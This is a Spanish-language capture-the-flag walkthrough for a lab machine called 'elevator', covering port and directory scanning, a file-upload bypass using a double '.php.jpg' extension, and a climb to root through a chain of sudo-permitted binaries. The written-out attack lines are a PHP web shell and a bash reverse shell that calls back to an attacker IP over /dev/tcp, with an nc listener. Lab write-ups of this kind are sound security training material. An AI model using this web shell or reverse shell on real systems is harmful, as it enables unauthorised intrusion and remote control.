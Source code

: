 #Maquina elevator
---
Primero, verificamos la conectividad con la máquina utilizando **ping**:

![Ping a la máquina objetivo](https://github.com/user-attachments/assets/ccf1913f-1090-4440-b19c-99c02fa464ea)

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**.
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![image](https://github.com/user-attachments/assets/71cb52df-a563-4f30-b629-338de6f946b0)

	Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Al parecer, es una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.

![image](https://github.com/user-attachments/assets/5a24029b-c718-4aef-bab5-07fef1ef97aa)
![image](https://github.com/user-attachments/assets/301493da-5523-4f1d-b624-edffdd161fc0)

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```

![image](https://github.com/user-attachments/assets/848edb40-b853-488c-815a-723877351ebd)

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```

![image](https://github.com/user-attachments/assets/1009cbe7-526c-4e7c-a697-c7425620a0e8)

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.

![image](https://github.com/user-attachments/assets/3be38251-eb36-4699-893f-29828ac0bb3d)

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.

![image](https://github.com/user-attachments/assets/cf5347b1-1321-4ed2-9cb3-c3a0d15fe563)

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```php
<?php``
    system($_GET['cmd'])
?>
```

![image](https://github.com/user-attachments/assets/57d54f62-7969-4ec9-a289-9e174bace3c1)``

Procedemos a subir el fichero a la web.

![image](https://github.com/user-attachments/assets/07a53adf-c045-479f-b990-8d25c1feaf38)

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.

![image](https://github.com/user-attachments/assets/efa7fbce-9d34-4d45-805c-bf736f166876)

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.

![image](https://github.com/user-attachments/assets/f455ca75-1e51-4e66-84d9-d5fb934da5da)

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.

![image](https://github.com/user-attachments/assets/bbe9063c-8a45-4eea-9acf-80dc2e27bfe2)

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.

![image](https://github.com/user-attachments/assets/2221b44c-ae07-442d-a5af-62120f4f741d)

La web interpreta correctamente el archivo malicioso subido por nosotros.

![image](https://github.com/user-attachments/assets/46ae684c-4649-40b1-a442-b88936f312f6)


Al ejecutar el comando `id`, verificamos la respuesta del comando.

![image](https://github.com/user-attachments/assets/11ca7995-ad4f-42fc-89ce-146fdcb28464)

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`

![image](https://github.com/user-attachments/assets/5f53a80a-2959-4c82-85b3-b8968da9222d)

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/c7b2bfde-9d5f-438a-8a1b-ff17d1c0eda6)

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. Vamos a verificar los permisos SUID para verificar si podemos elevar los privilegios por este método.

![image](https://github.com/user-attachments/assets/5649a008-e84e-479d-b29a-b1461df881b0)

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.

![image](https://github.com/user-attachments/assets/67836fc2-27fc-41ce-b39a-91fd61e2365f)

![image](https://github.com/user-attachments/assets/bfe361cb-be55-47f8-a52a-32f94666d19a)

Lamentablemente no podemos tirar por esta lado.

![image](https://github.com/user-attachments/assets/af283685-a5ed-47ce-a493-be56dcc09527)

Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.

![image](https://github.com/user-attachments/assets/867899f6-d535-4786-ab47-6233e3215063)

	En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**

![image](https://github.com/user-attachments/assets/3f7edfb7-9e27-45c5-9f83-775e4e412702)

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.

![image](https://github.com/user-attachments/assets/e61ea684-7c5c-412c-b1b0-74527e308a31)

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).

![image](https://github.com/user-attachments/assets/97e3dc67-8d1e-4751-ac52-5fd09d0e5d6c)

![image](https://github.com/user-attachments/assets/86c4abcf-e0ef-498e-bb60-2caf8f917e79)

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.

![image](https://github.com/user-attachments/assets/fed2f6dc-109c-4696-b67d-9c44c968db5a)

![image](https://github.com/user-attachments/assets/2338ad11-cabf-48d2-a940-cc59dc764925)

Ganamos acceso al usuario shaggy.

![image](https://github.com/user-attachments/assets/694c563b-20fa-402f-9e29-4f4102a2f32b)

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.

![image](https://github.com/user-attachments/assets/c6ba585c-5438-4139-8c4d-8c2fb04727e2)

![image](https://github.com/user-attachments/assets/775abda8-d31e-4632-97b4-4f0221524ce3)

Ahora logramos migrar al usuario **fred**.

![image](https://github.com/user-attachments/assets/b1ebe188-a860-4b66-a728-ceef6b5e84f4)

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.

![image](https://github.com/user-attachments/assets/38523977-bfc3-4bf6-bdd8-fb7927a6e0db)

![image](https://github.com/user-attachments/assets/c45a7d93-1344-4aec-849a-7b5e395c48cc)

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.

![image](https://github.com/user-attachments/assets/47b5e7d3-9ef7-4906-95ed-2f59ec0a8a52)

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.

![image](https://github.com/user-attachments/assets/174b93d3-6efb-4009-b5d9-66c7e1dc1372)

![image](https://github.com/user-attachments/assets/1ed27c1e-8aa8-493d-98a3-14880958df35)

# $BLING $BLING SOMOS ~~ROOT~~

![image](https://github.com/user-attachments/assets/027d9ae5-281f-47f4-a943-110c6c318a79)

